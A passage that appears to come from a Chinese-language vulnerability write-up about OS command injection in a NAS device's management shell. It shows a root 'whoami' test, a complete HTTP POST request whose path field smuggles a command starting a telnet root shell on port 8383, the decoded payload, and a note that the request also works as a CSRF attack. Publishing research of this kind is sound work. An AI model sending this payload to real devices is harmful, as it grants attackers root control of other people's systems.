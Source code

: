 ```
dropbox                       storage
dservice                      tdc
enable                        test_connection
exit                          time_machine
fad                           traceroute
file                          ucopy
fileye                        user
gdrive                        uzync
import                        webdisk
interface                     whoami
ip                            wlan
ipcam                         write
job_controller                zy-pkgs
load                          zyfw
media
```

测试这些函数后，我们发现其中`package`会执行Linux系统命令。比如我们可以执行whoami命令，按到该进程以root权限执行，如下所示：

```
&gt; package whoami
root
retval = -1
ERROR: Parse error/command not found!
```

现在我们可以使用`package`命令来发起OS CMDi攻击，接下来我们需要完成如下操作：
- 找到能够调用`zyshclient`的web API请求；
- 终止运行`zyshclient`命令；
- 使用`package`函数注入命令。
我们可以使用如下POST请求来满足这些条件，生成在8383端口监听的telnet服务端：

```
POST /cmd,/ck6fup6/fileBrowser_main/browse HTTP/1.1
Host: 192.168.1.86
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 55
Cookie: language=en; ys-showedHomeBtnTooltip=b%3A1; ys-showedViewBtnTooltip=b%3A1; target=admin; authtok=572bvNtoFMUOot7PmFjGMNEfA61rZi3zntTm+KOnp9GXMicP6oUYt4AYcYfFbeME; ys-video_autoResume=b%3A1; ys-warnInstallPlayer=s%3Ayes; ys-warnVersionPlayer=s%3Ayes; ys-playerVolume=s%3A100

share=admin&amp;path=%2Fdownload"+%3b+package+telnetd+-l+/bin/sh+-p+8383+%3b+dir+"/&amp;start=0&amp;limit=26&amp;view=grid

```

其中`path`参数后的值经过编码，解码后的payload如下所示：

```
/download" ; package telnetd -l /bin/sh -p 8383 ; dir "/
```

该请求同样可以发起CSRF攻击，攻击者可以诱导经过身份认证的用户来发起该请求。攻击者只需要等待用户访问恶意页面，通过该页面发送跨域请求，其中就包含用户的cookie信息。
